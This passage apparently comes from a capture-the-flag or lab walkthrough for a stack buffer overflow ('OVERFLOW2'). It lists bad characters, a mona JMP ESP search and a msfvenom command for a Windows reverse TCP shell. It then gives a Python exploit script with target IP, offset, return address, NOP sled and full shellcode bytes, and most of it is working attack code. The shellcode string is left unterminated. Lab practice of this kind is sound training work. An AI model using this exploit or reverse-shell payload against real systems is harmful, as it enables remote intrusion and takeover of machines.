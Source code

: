 ```
\x00\x23\x3c\x83\xba
```

Now we need to find a jump point using these chars:

```
!mona jmp -r esp -cpb "\x00\x23\x3c\x83\xba"
```

Let's copy the first address to the clipboard and reverse it:

```
625011AF ==> \xaf\x11\x50\x62
```

This will be our `retn` variable. Now let's generate payload:

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00\x23\x3c\x83\xba" -f c
```

Now that we know what it is we need to exploit this machine, we can return to the previous exploit script and use it as `attack.py`:

```
import socket

ip = "10.10.208.35"
port = 1337

prefix = "OVERFLOW2 "
offset = 634
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
payload = (
"\xfc\xbb\x0f\x20\x4a\x5e\xeb\x0c\x5e\x56\x31\x1e\xad\x01"
"\xc3\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\xf3\xc8\xc8"
"\x5e\x0b\x09\xad\xd7\xee\x38\xed\x8c\x7b\x6a\xdd\xc7\x29"
"\x87\x96\x8a\xd9\x1c\xda\x02\xee\x95\x51\x75\xc1\x26\xc9"
"\x45\x40\xa5\x10\x9a\xa2\x94\xda\xef\xa3\xd1\x07\x1d\xf1"
"\x8a\x4c\xb0\xe5\xbf\x19\x09\x8e\x8c\x8c\x09\x73\x44\xae"
"\x38\x22\xde\xe9\x9a\xc5\x33\x82\x92\xdd\x50\xaf\x6d\x56"
"\xa2\x5b\x6c\xbe\xfa\xa4\xc3\xff\x32\x57\x1d\x38\xf4\x88"
"\x68\x30\x06\x34\x6b\x87\x74\xe2\xfe\x13\xde\x61\x58\xff"
"\xde\xa6\x3f\x74\xec\x03\x4b\xd2\xf1\x92\x98\x69\x0d\x1e"
"\x1f\xbd\x87\x64\x04\x19\xc3\x3f\x25\x38\xa9\xee\x5a\x5a"
"\x12\x4e\xff\x11\xbf\x9b\x72\x78\xa8\x68\xbf\x82\x28\xe7"
"\xc8\xf1\x1a\xa8\x62\x9d\x16\x21\xad\x5a\x58\x18\x09\xf4"
"\xa7\xa3\x6a\xdd\x63\xf7\x3a\x75\x45\x78\xd1\x85\x6a\xad"
"\x76\xd5\xc4\x1e\x37\x85\xa4\xce\xdf\xcf\x2a\x30\xff\xf0"
"\xe0\x59\x6a\x0b\x63\x6c\x60\x77\x80\x18\x74\x77\x40\x87"
"\xf1\x91\xe6\x27\x54\x0a\x9f\xde\xfd\xc0\x3e\x1e\x28\xad"
"\x01\x94\xdf\x52\xcf\x5d\x95\x40\xb8\xad\xe0\x3a\x6f\xb1"
"\xde\x52\xf3\x20\x85\xa2\x7a\x59\x12\xf5\x2b\xaf\x6b\x93"
"\xc1\x96\xc5\x81\x1b\x4e\x2d\x01\xc0\xb3\xb0\x88\x85\x88"
"\x96\x9a\x53\x10\x93\xce\x0b\x47\x4d\xb8\xed\x31\x3f\x12"
"\xa4\xee\xe9\xf2\x31\xdd\x29\x84\x3d\x08\xdc\x68\x8f\xe5"
"\x99\x97\x20\x62\x2e\xe0\x5c\x12\xd1\x3b\xe5\x32\x30\xe9"
"\x10\xdb\xed\x78\x99\x86\x0d\x57\xde\xbe\x8d\x5d\x9f\x44"
"\x8d\x14\x9a\x01\x09\xc5\xd6\x1a\xfc\xe9\x45\x1a\xd5\xe9"
"\x69\xe4\xd6
)
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

```